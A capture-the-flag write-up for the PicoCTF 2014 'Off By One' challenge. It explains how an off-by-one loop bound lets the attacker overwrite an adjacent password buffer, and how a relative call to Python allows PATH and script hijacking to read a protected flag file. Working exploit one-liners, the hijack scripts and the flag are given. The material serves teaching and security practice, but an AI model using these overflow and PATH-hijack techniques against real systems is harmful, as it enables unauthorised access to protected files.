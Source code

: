 ###Off By One

This challenge comes from PicoCTF 2014. We are given a vulnerable C code in the directory ```/home/obo/```. Our goal is to cat ```flag.txt```, which is placed in the same directory.

The obvious mistake that the programmer has made is buffer overflow. Instead of using ```<```, the programmer used ```<=```, reading one additional index.
This vulnerability comes in handy for bypassing the password check. For now, let's talk about the first half of the ```main()```.
```
generate_hex_table();
...
printf("New password: ");
  fflush(stdout);
  read_password(stdin, new_password, sizeof(new_password));
  for (i = 0; i <= strlen(new_password); ++i) {
    int index = hex_table[(unsigned char) new_password[i]];
    if (index == -1) {
      printf("Invalid character: %c\n", new_password[i]);
      exit(1);
    }
    digits[index] = 1;
  }

  for (i = 0; i <= 16; ++i) {
    if (digits[i] == 0) {
      printf("Password is not complex enough: %d\n", i);
      return 1;
    }
  }
```
generate_hex_table() looks as follows
```
void generate_hex_table(void) {
  int i;
  for (i = 0; i <= 256; ++i) {
    hex_table[i] = -1;
  }

  for (i = 0; i <= 10; ++i) {
    hex_table['0' + i] = i;
  }

  for (i = 0; i <= 6; ++i) {
    hex_table['a' + i] = 10 + i;
  }

  for (i = 0; i <= 6; ++i) {
    hex_table['A' + i] = 10 + i;
  }

  // I don't know why, but I was getting errors, and this fixes it.
  hex_table[0] = 0;
}
```
What ```generate_hex_table()``` is supposed to do is to generate an int array that is used for password checking. First, all the array elements (including one-unit oveflow) is set to -1 to indicate invalid character.
Then, we see that the ASCII digits 0-9 as well as : that comes after ASCII 9) is set to 0 to 10 respectively, followed by ASCII lowercase alphabets
a to g set to 10 through to 16, followed by ASCII uppercase alphabets A to G set to 0 through to 16. 
The first for-loop of the main() checks whether each character of the string we input falls within these characters, and set digits[] array using 
```index = hex_table[(unsigned char) new_password[i]]```. To pass the second for-loop, all of the elements of digits[] must be set to 1.
So we know that the variable index has to be from 0 o 15. This is easy; we just give all the digits, as well as the alphabets a to f.
The second half of the program is password checking. 
```
  printf("Confirm old password: ");
  fflush(stdout);
  read_password(stdin, confirm_password, sizeof(confirm_password));
  if (strcmp(confirm_password, password) != 0) {
    printf("Old password is incorrect.\n");
    return 1;
  }
```
```confirm_password``` varible is the string we feed to the program. This is checked by the password stored and read from the password file. 
Now, there is no way we can guess or disclose the password: in fact, we don't have to do it. This is where the buffer overflow vulnerability comes in.
It turns out that in the stack, the variable stored after the int digits array is password. And when index = 16, we can set digits[16] = 1, which is actually this password string.
1 is an integer value (4 bytes), in hexadecimal equal to \x01\x00\x00\x00 (reversed for little-endian): this is handy because ASCII 0 follows \x01, which can be recognised as the null character
for this string! Note that to set index[16] = 1, we can supply g as one of the characters in the password, and this is exactly the <= mistake in the generate_hex_table() allows us to do.

Another mistake we can exploit is that the programmer called python to change the password rather than do it within the C code. 
There are a few ways we can exploit this.

-------------1--------------

We can go to the root directory and from there execute ```obo```. It is important to know that ```set_password.py``` is called relative to the program. Say we make a python file in the home directory with
identical name but has the following content

```
print open("cat /home/obo/flag.txt").read()
```
Then this would be the file executed by the program. So, in the root directory, enter the following in the command line
```
python -c 'print "abcdefg123456789\n\x01" ' | /home/obo/obo
```
Note that we have get to execute the program this way using Python because we want to pass integer (or hex) 1, not 1 as ASCII character. 

-------------2--------------

In the home directory, we can make a bash script named ```python``` with the following code inside
```
#!bin/sh
cat /home/obo/flag.txt
```
Make this executable and modify the $PATH variable
```
chmod +x python
export PATH=/home_users/pico*****:$PATH
```
We set the path as above because of the precedence - from left to right.

Also, in order to use the actual python command, we can call it as python2. So we just have to type in the command line
```
python2 -c "print 'abcdefg123456789\n\x01'"| /home/obo/obo
```

the flag is  ```watch_your_bounds```











